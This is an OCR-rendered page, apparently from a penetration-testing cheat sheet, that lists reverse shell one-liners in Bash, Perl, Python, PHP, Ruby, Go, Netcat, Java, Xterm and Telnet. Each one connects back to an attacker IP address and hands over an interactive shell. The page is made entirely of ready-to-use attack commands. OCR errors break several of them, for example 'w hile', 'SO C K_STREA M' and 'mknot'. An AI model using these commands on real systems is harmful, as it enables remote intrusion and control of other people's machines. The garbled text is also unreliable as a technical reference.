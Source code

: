# Reverse Shells

- Bash

→ bash -i >& /dev/tcp/10.11.0.236/8080 0>&1
→ exec /bin/bash 0&0 2>&0
→ 0<&196;exec 196<>/dev/tcp/192.168.49.163/8080; sh <&196 >&192 2>&196
→ exec 5<>/dev/tcp/10.11.0.236/808; cat <&5 | w hile read line; do $ line 2>&5 >&5; done # or: w hile read line 0<&5; do $line 2>&5
>&5; done

- Perl

→ perl -e ‘use Socket;$i="10.11.0.87";$ p=8181;socket(S,PF _INET,SO C K_STREA M,getprotoby name("tcp"));if(connect(S,sockaddr_in
($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
→ perl -MIO -e ‘$ p=fork;exit,if($ p);$ c=new IO ::Socket::INET(PeerA ddr, “10.11.0.236:4567”);STDIN->fdopen($c,r);$~-
>fdpen($c,w);system$_ while<>;’
→ perl -MIO -e ‘$ c=new IO ::Socket::INET(PeerA ddr,"10.11.0.236:4567");STDIN->fdopen($ c,r);$~->fdopen($c,w );sy stem
$_ while<>;’

- Python

→ python -c ‘import socket,subprocess,os;s=socket.socket(socket.A F _INET,socket.SO C K_STREA M);s.connect(("10.11.0.87",4567));os.dup2
(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

- PHP

→ php -r ‘$socket=fsockopen(’10.11.0.236',8080);exec("/bin/sh -i <&3 >&3 2>&3");'

- Ruby

→ ruby -rsocket -e 'f=TC PSocket.open("10.11.0.236",8080).to_i;exec sprint("/bin/sh -i <&% d >&% d 2>&% d",f,f,f)'
→ ruby -rsocket -e ‘exit if fork;c=TC PSocket.new ("10.11.0.236","4567");w hile(cmd=c.gets);IO .popen(cmd,"r") {|io|c.print io.read}end’
114/117
→ ruby -rsocket -e' c=TC PSocket.new ("10.11.0.236","4567");w hile(cmd=c.gets);IO .popen(cmd,"r") {|io|c.print io.read}end'

- GOLANG

-> echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","0.0.0.0:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

- Netcat

→ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.49.163 8080 >/tmp/f

- Java

→ r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev /tcp/192.168.49.90/8080;cat <75 | w hile read line; do \$line 2>&5
>&5; done"]; as String[]); p.waitFor()

- Xterm

→ xterm -display 10.11.0.236:1 (TC P port 6001) (Start an X-Serv er) (# Xnest :1) (You'll need to authorize the target to connect to y ou)
(# xhost +targetip, run on host)
- Telnet
→ rm -f /tmp/p; mknot /tmp/p p && telnet 10.11.0.236 4445 0/tmp/p
→ telnet 10.11.0.236 4444 | /bin/bash | telnet 10.11.0.236 4445 ## Remember to listen on y our rmachine also on port 4445/tcp
